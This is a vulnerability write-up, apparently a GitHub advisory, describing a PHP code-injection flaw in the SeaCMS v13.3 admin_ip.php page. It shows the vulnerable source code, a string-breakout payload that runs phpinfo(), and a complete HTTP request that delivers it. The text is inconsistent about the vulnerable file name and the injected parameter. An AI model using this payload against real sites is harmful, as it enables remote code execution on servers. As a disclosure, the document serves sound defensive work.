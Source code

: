 ## SeaCMS v13.3 Command Execution Vulnerability

### Introduction

SeaCMS v13.3 has a remote code execution vulnerability. This vulnerability is caused by the fact that although `admin_weixin.php` imposes certain restrictions on edited files, an attacker can still bypass these restrictions and write code in a way to splice bypass, allowing an authenticated attacker to exploit the vulnerability to execute arbitrary commands and gain system privileges.

SeaCMS official website: [SeaCMS - Open Source Free PHP Movie System, Movie CMS, Video CMS, Film CMS, SEACMS](https://www.seacms.com/)

Click to download
![](./public/1.png)

You can see the latest version v13.3
![](./public/2.png)

### Debugging Analysis and Vulnerability Exploitation  
The latest version of OceanCMS (v13.3) contains a command execution vulnerability.  
The vulnerable file is `0omeqd/admin_ip.php`, where PHP code concatenation is used, and is eventually written to the file `data/admin/ip.php`.  

```php
<?php 
header('Content-Type:text/html;charset=utf-8');
require_once(dirname(__FILE__)."/config.php");
CheckPurview();
if($action=="set")
{
	$v= $_POST['v'];
	$ip = $_POST['ip'];
	$open=fopen("../data/admin/ip.php","w" );
	$str='<?php  ';
	$str.='$v = "';
	$str.="$v";
	$str.='"; ';
	$str.='$ip = "';
	$str.="$ip";
	$str.='"; ';
	$str.=" ?>";
	fwrite($open,$str);
	fclose($open);
	ShowMsg("Settings saved successfully!","admin_ip.php");
	exit;
}
```

The web page in the backend management contains the system's mail server settings. We click "Confirm" and intercept the request.

We pass the parameter `smtppsw` and concatenate PHP code. The PoC is:  
```r
127.0.0.1";phpinfo();$a="1
```
The complete HTTP request is as follows:

```
POST /0omeqd/admin_ip.php?action=set HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 50
Origin: http://localhost
Connection: close
Referer: http://localhost/0omeqd/admin_ip.php
Cookie: XDEBUG_SESSION=AFCC; csrftoken=N1K4gile3UYv5N2MXM1ShwrrDTIW4JlfeGUS9a3XNzAxoXvHZ3itSuzzfFW4qdo8; devicePixelRatio=2; Phpstorm-db9a8415=b6480a2a-df8b-4049-b957-2723e5e1ad60; EM_AUTHCOOKIE_Is4qa70oOAoxVSN06kHCjdfvPUF6AvMI=admin%7C1768614317%7Cbce91a6d0efcfa837abca98d5feac895; EM_AUTHCOOKIE_H8GRtC1y0GuSnpOqCfrakVi13LpyC3uP=admin%7C1768664135%7C5c9e0424faa5c1136742a65bf62cfb85; t00ls=e54285de394c4207cd521213cebab040; t00ls_s=YTozOntzOjQ6InVzZXIiO3M6MTA6InBocCB8IHBocD8iO3M6MzoiYWxsIjtpOjA7czozOiJodGEiO2k6MTt9; PHPSESSID=sc3q3bgfniuuuj7s6et90vh3k8
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=4

v=0&ip=+127.0.0.1%22%3Bphpinfo%28%29%3B%24a%3D%221
```
![Image1](./public/2-1.png)  
Upon debugging and setting breakpoints, we can see that the `phpinfo();` was successfully injected into the `str` variable.
![Image1](./public/2-3.png)  

After accessing the PHP path, the PHP code executes successfully.  
```r
data/admin/ip.php
```

![Image2](./public/2-2.png)